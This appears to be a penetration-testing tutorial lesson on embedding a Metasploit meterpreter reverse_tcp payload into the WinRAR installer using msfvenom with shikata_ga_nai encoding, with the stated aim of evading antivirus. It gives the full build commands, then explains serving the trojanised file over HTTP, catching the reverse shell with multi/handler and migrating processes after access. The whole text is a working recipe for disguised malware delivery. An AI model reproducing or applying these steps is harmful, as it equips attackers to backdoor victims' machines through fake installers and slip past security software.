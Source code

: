 # Injecting Payloads Into Windows Portable Executables

This lesson is a technical demonstration. Note that the objective of injecting payloads into windows portable executables is bypassing AV systems.

## Laboratory

For this technical demonstration we won't need a lab environment. We can follow along using a simple kali virtual machine.

- First, we need a portable executable to inject the payload into it. One of the best options is WinRAR. For this case, we will need the 32 bit (x86) winrar setup from the official website.

- We will use the same example we used in the previous lesson but we will add the -x option to specify the executable we want to inject the payload in `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x ~/path/to/winrar.exe > ~/path/to/encoded/payload.exe` if you got no errors, the injection process should have succeded.

### Transfering Payload to the target

- To transfer the malicious payloads to the target machine, in this case we will only target windows windows. We need to have a windows 7 machine in the same network as our kali machine. We are going to setup a simple http web server and try to download the payloads to the windows machine from a web browser. Once we setup the web server, we are going to set up the listener using the msfconsole module `multihandler`. We only need to run `use multi/handler` inside the msfconsole and change the payload to the payload we crafted using msfvenom. And we also need to configure the LHOST and LPORT we configured in the payload with msfvenom.

**Note**: When using meterpreter payloads, we need to use the multihandler module to properly handle the connection. Simpler handlers like netcat could not work properly.

- From the windows target machine, enter the browser and download the payloads. Execute them and then you should see something happening on your kali machine, it should open a meterpreter session on the multihandler.

**Note**: It is importance to notice that the real functionality of the executable is not kept, we replaced it with the payload. This doesn't happen with the information of the file, it will keep the file description and company name.

**Note**: After gaining initial access in windows, it is recommended to `run` the post exploitation module `post/windows/manage/migrate`.

### Keeping original functionality of the executable

- This doesn't usually work and we can prove it won't work on winrar by using the same example as before but adding the option -k `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -k -x ~/path/to/winrar.exe > ~/path/to/encoded/payload.exe`. Note the error at the end. You could eventually find an executable with enough testing and error.

**Note**: This attack vector is really not used anymore, as the new AV solutions have huge signature databases and better detection techniques. This could be useful for older and rudimentary AV solutions like Windows Defender in Windows 7 and in some cases in new AV, but it is not the method utilized in regards to client side attacks because of the limitations of encoding.

